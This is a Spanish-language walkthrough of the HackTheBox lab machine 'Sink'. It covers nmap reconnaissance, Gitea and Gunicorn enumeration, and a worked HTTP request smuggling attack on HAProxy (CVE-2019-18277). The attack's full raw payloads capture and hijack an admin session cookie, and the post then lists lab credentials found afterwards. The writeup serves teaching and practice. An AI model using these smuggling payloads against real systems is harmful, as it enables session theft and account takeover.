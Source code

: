 ```yaml
---
layout      : post
title       : "HackTheBox - Sink"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313banner.png
category    : htb
tags        : [ AWS-CLI, HTTP-request-smuggling, cookie-hijacking, gitea, .enc ]
---
```

Máquina **Linux** nivel desquiciado. Nos enfrentaremos a un `HTTP Request Smuggling` (loco loco), saltaremos entre usuarios aún más locos, veremos **commits** relacionados a pasos a producción y pruebas extrañas con 🔑🔑, jugaremos bastante con `AWS CLI`, encontraremos secretos :O y finalmente desencriptaremos un archivo también jugando con `AWS` y `llaves KMS`.

![313sinkHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313sinkHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [MrR3boot](https://www.hackthebox.eu/profile/13531).

Desquiceddd! Este writeup es largito (más que nada por los bloques de código), así que cafecito y a rompernos la cabeza...

> Muy linda máquina.

Nos encontraremos con dos servicios, uno corriendo `Gitea` y otro `Gunicorn`, en el camino nos veremos las caras con un `HTTP request smuggling` el cual nos permitirá interceptar la **cookie** de sesión del usuario `admin@sink.htb`. La usaremos para entrar en un panel y encontrar unas notas, cada una tiene una credencial, una de ellas nos permitirá entrar al servicio `Gitea` referenciado antes.

Veremos unos repositorios, commits y demás info. En uno de los commits el usuario `marcus` estaba haciendo pruebas con su llave `SSH` privada y nos dejó el rastro. Usaremos esa llave para entrar en la máquina como él.

Empezaremos a jugar con `AWS CLI` para ver **logs** y **secretos**, en el jugueteo :o encontraremos otras credenciales guardadas como eso, secretos. Una de ellas pertenecen al usuario `david` y nos permitirán generar una sesión como él tanto en `Gitea` como en la máquina.

**David** en sus archivos tiene uno llamado `servers.enc` y esta encriptado mediante `aws`. Seguiremos jugando con `AWS-CLI`, pero ahora con `kms` para jugar con `keyId`**s** y buscar la manera de desencriptar el archivo validándolo contra distintas llaves que iremos encontrando.

Finalmente encontraremos una llave que nos devuelve una cadena en `base64`, la tomamos y guardamos en un archivo, el tipo de archivo generado es un comprimido `gzip`, usaremos `zcat` para descubrir que contiene el archivo `servers.yml`, veremos otras credenciales en este caso de un usuario llamado `admin`. Nos servirán para generar una Shell como el usuario `root`.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Muuuuuuuuuy real, alguna que otra cosita conocida pero sobre todo demasiada enumeración (mucha lectura y búsqueda).

> Escribo para tener mis "notas", por si algun día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Vuelve que el dolor me mata.

1. [Reconocimiento](#reconocimiento).
  * [Usamos **nmap** para descubrir los puertos que tiene abiertos la máquina](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el servicio web corriendo en el puerto 3000](#puerto-3000).
  * [Descubrimos que hay en el servicio web del puerto 5000](#puerto-3000).
3. [Explotación](#explotacion).
  * [Encontramos cositas al interceptar las peticiones con **BurpSuite**](#playing_with_vuln).
  * [Robamos **cookies** del usuario **admin** explotando un **HTTP Request Smuggling**](#final_vuln).
  * [Encontramos cositas siendo el usuario **admin** en la web](#web-notes).
  * [Enumeramos el servicio del puerto **3000** (**Gitea**) como el usuario **root**](#gitea-root).
4. [Movimiento Lateral (**AWSecrets**)](#movimiento-lateral).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Usamos <u>nmap</u> para descubrir puertos abiertos [📌](#enum-nmap) {#enum-nmap}

Realizaremos un escaneo de puertos para saber que servicios esta corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.225 -oG initScan
```

| Parámetro  | Descripción |
| ---------- | :---------- |
| -p-        | Escaneamos todos los 65535 puertos.                     |
| --open     | Solo los puertos que estén abiertos.                    |
| -v         | Permite ver en consola lo que va encontrando (verbose). |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.225
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.225 ()   Status: Up
Host: 10.10.10.225 ()   Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///, 5000/open/tcp//upnp///
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 90.06 seconds
```

Perfecto, nos encontramos los puertos y servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Tenemos la posibilidad de obtener una Shell de manera segura. |
| 3000   | **PPP**: No lo sabemos aún. |
| 5000   | **[UPnP](https://www.speedguide.net/port.php?port=5000)**: Conjunto de protocolos para la comunicación de periféricos en la red. |

Hagamos un escaneo de scripts y versiones con base en cada servicio (puerto), con ello obtenemos información más detallada de cada uno:

```bash
❭ nmap -p 22,3000,5000 -sC -sV 10.10.10.225 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos.                       |
| -sC       | Muestra todos los scripts relacionados con el servicio. |
| -sV       | Nos permite ver la versión del servicio.                |
| -oN       | Guarda el output en un archivo.                         |

Obtenemos:

```bash
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p 22,3000,5000 -sC -sV -oN portScan 10.10.10.225
Nmap scan report for 10.10.10.225
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=1f3e9a13ee13832b; Path=/; HttpOnly
|     Set-Cookie: _csrf=Aq4ydKpCQiIxK9nMLskgSeyGzwI6MTYxMzU3NjcxMDE1ODI4NzczNQ; Path=/; Expires=Thu, 18 Feb 2021 15:45:10 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:10 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=4962a49b06cbe2fd; Path=/; HttpOnly
|     Set-Cookie: _csrf=VEhuM5Nh9ZTyY63RRBsfaoun5dI6MTYxMzU3NjcxNjE4MjM4NjQzMg; Path=/; Expires=Thu, 18 Feb 2021 15:45:16 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:16 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
5000/tcp open  http    Gunicorn 20.0.0
|_http-server-header: gunicorn/20.0.0
|_http-title: Sink Devops
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.80%I=7%D=2/17%Time=602D37C4%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"...");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 108.67 seconds
```

Bien, tenemos varias cositas:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH                   | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 |
| 3000   | PPP (Al parecer HTTP) | - |

* Tiene varias referencias hacia `Gitea`.
* Vemos 2 cookies y una relacionada a `gitea`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 5000   | HTTP     | Gunicorn 20.0.0 |

Nada más por ahora, así que empecemos a validar cada servicio y ver por donde podemos jugar...

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Recorremos el puerto 3000 [📌](#puerto-3000) {#puerto-3000}

![313page3000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000.png)

Listos, confirmamos el servicio `Gitea`.

🦠 ***Básicamente nos permite alojar control de versiones usando `Git` y es un fork (copia) de [Gogs](https://onthedock.github.io/post/171106-gogs-como-crear-tu-propio-servicio-de-hospedaje-de-repos-git/) (que nos ayuda a correr nuestro propio servicio `Git`, mejor dicho, tener nuestro propio <u>GitHub</u>), pero mejorado y para toda la familia.***

* [**Gitea**, la versión mejorada de **Gogs**](https://onthedock.github.io/post/180713-gitea-la-version-mejorada-de-gogs/).
* [Comparativa entre varios servicios de **Git hosting**](https://docs.gitea.io/en-us/comparison/).

Vale, entonces enumeremos a ver que sacamos...

Si vamos al apartado `explore` tenemos 3 ítems, veamos `users`:

![313page3000_explore_users](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_users.png)

* Usuario: `david`.
* Usuario: `marcus`.
* Usuario: `root`.
* Versión **Gitea**: `1.12.6`.
* Versión **Go**: `1.14.12`.

Validando cada usuario, vemos que todos están asociados a una organización, `Sink_Solutions`, en **Organizations** la encontramos:

![313page3000_explore_organizations](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations.png)

![313page3000_explore_organizations_sinksolutions](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations_sinksolutions.png)

También podemos logearnos, probando con los usuarios y posibles contraseñas no conseguimos nada...

![313page3000_signin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_signin.png)

Buscando vulnerabilidades con las versiones relacionadas encontramos una que posiblemente (no creo :P) esté relacionada, pero debemos estar autenticados, guardémosla por si algo:

* [Gitea-1.12.6: Authenticated remote code execution via git hooks (CVE-2020-14144)](https://bugs.gentoo.org/750686).

...

## Recorremos el puerto 5000 [📌](#puerto-5000) {#puerto-5000}

🦄 ***`Gunicorn` (Green Unicorn) is a <u>Python WSGI HTTP Server for UNIX</u>. It’s a pre-fork worker model compatible with various web frameworks, simple and lightweight server.*** [musyokaian](https://musyokaian.medium.com/server-side-template-injection-ssti-afa201f2afbb).

Pero khe jeso de ***WSGI***, rápidamente:

⚙️ ***`WSGI` permite que programas hechos en <u>Python</u> puedan comunicarse a través del protocolo <u>HTTP</u> sin ningún tipo de framework o librería.*** [codigofacilito](https://codigofacilito.com/articulos/wsgi-python).

![313page5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000.png)

Tenemos un login panel, pero también nos podemos registrar, démosle...

![313page5000_signup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_signup.png)

![313page5000_home](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home.png)

* Tenemos un correo: `admin@sink.htb`.

Bien, pa que lo sepamos:

![313page5000_home_whatisDevOps](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home_whatisDevOps.png)

En el apartado `notes` nos permite agregar, ver y borrar notas:

![313page5000_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes.png)

![313page5000_notes_more](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_more.png)

> Son notas que cree para probar algun tipo de injección o brecha. Pero por el momento nada...

...

# Explotación [#](#explotacion) {#explotacion}

---

* [Jugando para entender la explotación](#playing_with_vuln).
* [Explotación final de algo muy locochón](#final_vuln).

...

## Encontramos un vector de ataque muuuy potencial [📌](#playing_with_vuln) {#playing_with_vuln}

Bueno bueno bueeeeeeeeeeno... 

Después de dar vueltas por las páginas con **BurpSuite** interceptando las peticiones del servidor `http://10.10.10.25:5000`, notamos algo llamativo:

![313burp5000_home_haproxy_found](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_home_haproxy_found.png)

Esta usando un proxy llamado `HAProxy` entre las peticiones, pues veamos que se trata:

🚇 ***`HAProxy` es un balanceador de cargas (load balancer: <u>transfiere peticiones entre host para evitar colapsos y hacer que sean procesadas más rápido</u>) entre servidores.***

* [YT - Balanceador de carga con **HAProxy**](https://www.youtube.com/watch?v=7ljiOD6MbLA).
* [HAProxy en Wikipedia](https://en.wikipedia.org/wiki/HAProxy).
* [Balanceadores de carga, mejora el rendimiento de tu web](https://www.redeszone.net/tutoriales/servidores/balanceador-carga-load-balancer-que-es-funcionamiento/).

Teniendo esto claro, validemos si existen vulnerabilidades hacia ese servicio...

Inicialmente nos encontramos con el CVE [CVE-2020-11100](https://www.cybersecurity-help.cz/vdb/SB2020040219), el cual apoyado del protocolo `HTTP/2` (para hacer un uso más eficiente de los recursos en la red) puede permitirle al atacante enviar una petición "especial", que puede generar un `heap-based buffer overflow` y finalmente una ejecución remota de comandos en el sistema.

* [Heap-based Buffer Overflow? - cwe.mitre.org](https://cwe.mitre.org/data/definitions/122.html).
* [Desbordamiento de montículo (heap) - Wikipedia](https://es.wikipedia.org/wiki/Desbordamiento_de_mont%C3%ADculo).

Es una vulnerabilidad descubierta por `Felix Wilhelm` (integrante del grupo de hackers de **Google** (`Project Zero`)), en el blog oficial de `HAProxy` nos redireccionan al writeup creado por él:

* [HAProxy Security Update HTTP/2 HPACK - haproxy.com](https://www.haproxy.com/blog/haproxy-1-8-http-2-hpack-decoder-vulnerability-fixed/).
* [HAProxy: out-of-bounds-write in HTTP/2 - bugs.chromium.org](https://bugs.chromium.org/p/project-zero/issues/detail?id=2023).

Dándole vistazos a otros recursos y temas relacionados a esa vuln, no logre interactuar con ella... 

...

Buscando y buscando encontré un [PoC en formato de video](https://www.youtube.com/watch?v=nq0ndhkfV_M) explotando una vulnerabilidad llamada:

```html
HTTP Request Smuggling
``` 

Y que afecta a `HAProxy`, esta tiene relacionado el CVE [CVE-2019-18277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18277).

* [YT - HTTP Request Smuggling explain on **HAProxy CVE-2019-18277**](https://www.youtube.com/watch?v=nq0ndhkfV_M).

Antes de probar la vuln, entendamos (o intentémoslo) sobre `HTTP Request Smuggling`.

---

### ¿Qué es un <u>HTTP Request Smuggling</u>? (Descubrámoslo) [🪕](#what-is-smuggling) {#what-is-smuggling}

Como indica [**Busra Demir** en su artículo](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling), `HTTP request smuggling` es una técnica la cual interfiere en el proceso por el que pasan las peticiones del front al back. Donde el atacante puede modificar la petición para incluir otra en la misma petición. Lo que pasara es que ejecutara la primera petición normalmente, pero al terminar de procesarla ejecutara la segunda que tenemos incrustada, logrando así el éxito de la vulnerabilidad. 

Esto se logra **modificando/agregando** <u>2 headers HTTP</u>:

```html
* Content-Length Header: the size of the request body (in bytes).
* Transfer-Encoding Header: specified as chunked so that the request body will be sent in chunks (separated by newline). 0 is used to end a chunk.
```

* [**Pentester guide to HTTP Request Smuggling**](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling).

Pero **¿para qué nos sirve esto?** Como explica [portswigger](https://portswigger.net/web-security/request-smuggling) nos puede permitir <u>bypassear controles de seguridad</u>, <u>obtener acceso a información sensible</u> yyyy <u>comprometer otros usuarios que estén en la aplicación</u>.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313http_request_smuggling.svg" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de [What is HTTP request smuggling? - portswigger](https://portswigger.net/web-security/request-smuggling).

...

Ahora sí, sigamos y probemos si nuestra versión es vulnerable a `HTTP Request Smuggling`...

Siguiendo algunos ejemplos de referencias anteriores y de [este artículo](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142), logramos obtener la versión de `HAProxy` que esta usando el servidor:

* [The Powerfull HTTP Request Smuggling - medium.com/ricardoiramar](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142).

Si enviamos la siguiente petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* Enviamos la data en formato `chunked` (separada por `\n` (newline)).
* El total de la traza serian `9` caracteres (`note=hola`).
* Con `0` le indicamos el final de la data en formato `chunk`.

Obtenemos la versión concreta de **HAProxy**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_res_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> HAProxy Version 1.9.10

Bueno, pues podemos enfocarnos un poco más. Quizás esta sea la ruta adecuada para la explotación. Sigamos validando si podemos explotar la web mediante el smuggling... 

En las referencias del CVE, encontramos este **PoC**:

* [HAProxy HTTP Request Smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling).

Dándole unas vueltas nos indica algo necesario para la correcta explotación:

> The backend must also support HTTP <u>keep-alive</u>.

Así que debemos cambiar el **header** `Connection: close` a `Connection: keep-alive`.

Démosle a la locura, modifiquemos la petición incrustando otra solicitud a ver que recibimos:

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 259                                               <!-- original -->
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding: chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                   <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y validamos el apartado `/notes`, tenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

**Nada :P 😂**

...

## Logramos la explotación del <u>HTTP Request Smuggling</u> [📌](#final_vuln) {#final_vuln}

Revisando de nuevo el post, nos dice que <u>muchas veces el </u>`chunked`<u> no es tomado y debemos agregarle al inicio de ese header la cadena </u>`\x0b`<u> (hexadecimal) </u>**<u>para que lo interprete</u>**. 

Después de jugar con él, intentando agregarlo a la petición, obteníamos lo mismo. Peeeeeeero era porque lo estaba haciendo mal. 

Si pasamos el valor hexadecimal a **base64** externamente (nosotros mismos) y después en **Burp** usamos el convertidor interno de **base64** al valor original, ahí si logramos ver el `\x0b` reflejado:

1. Pasar `0b` a **base64**: `Cw==`.
2. Pegar `Cw==` en la petición, seleccionarlo y decodearlo de **base64** a valor original:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Seleccionamos la cadena `Cw==` y hacemos:

```html
Clic derecho > Convert-Selection > Base64 > Base64-decode (o de la forma corta: CTRL + SHIFT + B)
```

Y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded                        <!-- original -->
Content-Length: 259
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                        <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

Perfecto, validemos si cambia algo ahora...

Nos genera dos notas, una esta vacía y la otra llenita :P Veamos la llenita claramente:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vale vale valeeeeeeeeeee, que es esta locuraaaaaaaaaaaa... Tenemos una nueva `cookie` de algún usuario (o pues al menos es diferente a la nuestra) corriendo el servicio sobre el `localhost`.

Viendo lo que tenemos podemos intuir que esta pasando:

> (Esto puede sonar enrredado (supongo) pero es lo que entiendo que paso)

🚨 ***Normalmente (como vimos en las explicaciones anteriores) queremos ingresar a algún recurso al que no tengamos acceso. Como en este caso no sabemos a cuál, lo lanzamos contra el mismo recurso. Vemos que se efectúa nuestro intento, logrando así <u>interceptar la otra petición, pero obteniendo la respuesta en el mismo recurso que usamos para enviarla</u> (o sea, en `/notes`)*** 

La petición es un `delete` a la nota **1234** (`/notes/delete/1234`) pero ejecutada desde el `localhost` por el puerto `8080` y claramente por un usuario interno, lo sabemos por qué obtenemos una `Cookie` distinta a la nuestra. Podemos usarla para cambiar la que tenemos por esa, recargar la página y ver con quien estamos (si es que cambiamos a otro usuario)...

```html
GET /notes/delete/1234 HTTP/1.1
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDSQAA._g
```

Pero si notamos el tamaño de la `cookie` es más corto (la comparamos con la nuestra), agreguémosle más buffer, simplemente cambiando el valor de la cabecera a `Content-Length: 250` por ejemplo y veamos la respuesta ahora:

> (Justo acá reiniciaron la máquina, pero pues lo unico que cambiaran seran las cookies, tanto la mia como la que obtengamos)

La respuesta que tenemos en la nueva nota es:

```html
Nada ._ .
```

Si ponemos más de **308** como tamaño volvemos a obtener solo una nota, entonces podemos borrar el contenido de `note=` (para liberar espacio) y coloquemos `Content-Length: 303` (después de algún tanteo):

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4

note=
```

Y obtenemos ahora si en la nota:

```html
GET /notes/delete/1234 HTTP/1.1 
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDWL9A.dG5uqF6Y8oZfi7uQi3IATStQVIA 
X-Forwarded-For: 127.0.0.1
```

Perfecto, ahora si es del tamaño adecuado :)

> (Volvieron a reiniciar la máquina😐)

Tomemos la cookie. Yo usare la extensión de Firefox llamada `Cookie-Editor` (que nos permite jugar con las cookies claramente :P)

Añadimos una nueva cookie, le ponemos de nombre `session` y pegamos la cookie que encontramos y damos clic en guardar (`add`). Ahora simplemente recargamos la página y estaríamos dentro como el usuario `admin@sink.htb`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_changed_cookie_adminSINKhtb.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313google_gif_kidperfect.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

...

## Encontramos cositas siendo el usuario <u>admin</u> [📌](#web-notes) {#web-notes}

Si revisamos las notas tenemos 3:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_admin_notes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El contenido de cada una es el siguiente:

```html
Note (1):

Chef Login : http://chef.sink.htb Username : chefadm Password : /G'FEGc&zEx{4]zz
```

```html
Note (2):

Dev Node URL : http://code.sink.htb Username : root Password : FaH@3I>ZB})zzfO3
```

```html
Note (3):

Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : gB>HGGK\{*L.f83C
```

Opa, tenemos 3 nuevas URL (una aparentemente con certificado SSL), con sus respectivos usuarios y contraseñas... Agreguémoslas al `/etc/hosts` e inspeccionemos...

```bash
❭ cat /etc/hosts
...
10.10.10.225  chef.sink.htb code.sink.htb nagios.sink.htb
...
```

